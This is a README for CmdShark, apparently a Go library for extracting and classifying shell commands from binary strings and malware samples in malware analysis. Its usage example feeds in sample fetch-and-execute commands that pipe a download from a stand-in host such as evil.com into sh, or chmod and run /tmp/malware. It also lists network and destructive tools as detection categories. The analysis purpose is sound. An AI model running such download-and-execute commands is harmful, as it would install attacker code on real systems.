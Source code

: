 # CmdShark 🦈

A powerful Go library for extracting shell commands from binary strings and malware samples. CmdShark uses sophisticated lexical analysis, parsing, and heuristic scoring to identify and extract legitimate shell commands while filtering out noise and false positives.

## Features

- **Smart Command Detection**: Identifies shell commands using lexical analysis and command head recognition
- **Multi-Fragment Assembly**: Reconstructs commands that are split across multiple string fragments  
- **False Positive Filtering**: Advanced filtering to reduce noise from binary data, natural language, and library paths
- **Confidence Scoring**: Each extracted command includes a confidence score and method tracking
- **Syntax Validation**: Validates command syntax including quote and parenthesis balancing
- **Command Classification**: Automatically tags commands by type (network, execution, suspicious, file-ops, macos)

## Installation

```bash
go get github.com/katalinaware/cmdshark
```

## Quick Start

```go
package main

import (
    "fmt"
    "github.com/katalinaware/cmdshark"
)

func main() {
    extractor := cmdshark.NewExtractor()
    
    // Extract from a single string
    commands := extractor.ExtractFromString("bash -c 'curl http://evil.com | sh'")
    
    // Extract from multiple string fragments
    fragments := []string{
        "curl", "http://malicious.com/payload",
        "&&", "chmod", "+x", "/tmp/malware",
        "&&", "/tmp/malware",
    }
    commands = extractor.ExtractFromFragments(fragments)
    
    for _, cmd := range commands {
        fmt.Printf("Command: %s\n", cmd.Command)
        fmt.Printf("Confidence: %.3f\n", cmd.Confidence)
        fmt.Printf("Tags: %v\n", cmd.Tags)
        fmt.Printf("Methods: %v\n", cmd.Methods)
        fmt.Println("---")
    }
}
```

## Configuration

```go
extractor := cmdshark.NewExtractor()

// Adjust confidence threshold
extractor.SetMinConfidence(0.6)

// Enable/disable deduplication
extractor.SetDeduplication(true)

// Set maximum fragments per command
extractor.SetMaxFragments(10)
```

## Command Classification

CmdShark automatically classifies extracted commands:

- **network**: curl, wget, nc, telnet, etc.
- **execution**: bash, python, osascript, etc.  
- **suspicious**: rm -rf, sudo, kill, etc.
- **file-ops**: cp, mv, chmod, tar, etc.
- **macos**: osascript, launchctl, spctl, etc.

## Advanced Usage

### Custom Configuration

```go
config := cmdshark.Config{
    MinConfidence:         0.45,
    MaxWindow:            12,
    MaxJoinChars:         600,
    Dedupe:               true,
    MaxFragmentsTotal:    24,
    MaxFragmentsPerSegment: 4,
}

extractor := cmdshark.NewExtractorWithConfig(config)
```

### Processing Binary Data

```go
// CmdShark handles binary data with embedded commands
binaryData := []byte{0x00, 0x01, 'b', 'a', 's', 'h', ' ', '-', 'c', 0xFF}
commands := extractor.ExtractFromString(string(binaryData))
```

## Testing

Run the comprehensive test suite:

```bash
go test -v
go test -bench=.
```

## License

MIT License - see LICENSE file for details.

## Contributing

Contributions welcome! Please read CONTRIBUTING.md for guidelines.